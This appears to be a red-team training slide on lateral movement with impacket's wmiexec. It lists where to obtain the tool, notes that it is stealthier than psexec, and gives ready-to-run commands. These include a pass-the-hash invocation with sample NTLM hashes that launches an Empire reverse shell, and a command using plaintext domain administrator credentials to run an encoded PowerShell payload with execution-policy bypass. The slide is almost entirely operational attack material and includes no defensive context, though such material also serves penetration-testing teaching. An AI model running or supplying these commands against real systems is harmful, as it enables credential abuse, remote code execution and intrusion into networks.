

# Lateral Movement
WMIExec
Get it from:
Kali - built-in /usr/share/doc/python-impacket/examples/wmiexec
Github - as a part of impacket https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py
Empire module   powershell/lateral_movement/invoke_wmi
CME - default usage

“Quiter” than psexec.      Supports pass the hash

Usage:
Python wmiexec.py -nooutput -hashes ‘LMHash:NTHash’ ‘Username’@IP  <cmd>
Python wmiexec.py -hashes ‘b4b9b02e6f09a9bd760f388b67351e2b:afe04867ec7a3845145579a95f72eca7’ ‘Bob’@10.10.100.112  <Empire reverse shell launcher>

Python wmixec.py -nooutput “ACME/Administrator:AdminPass!2@10.10.111.201” “powershell.exe -nop -exec bypass -encodedCommand JKJDSFKNKssdf/jdfYUA==“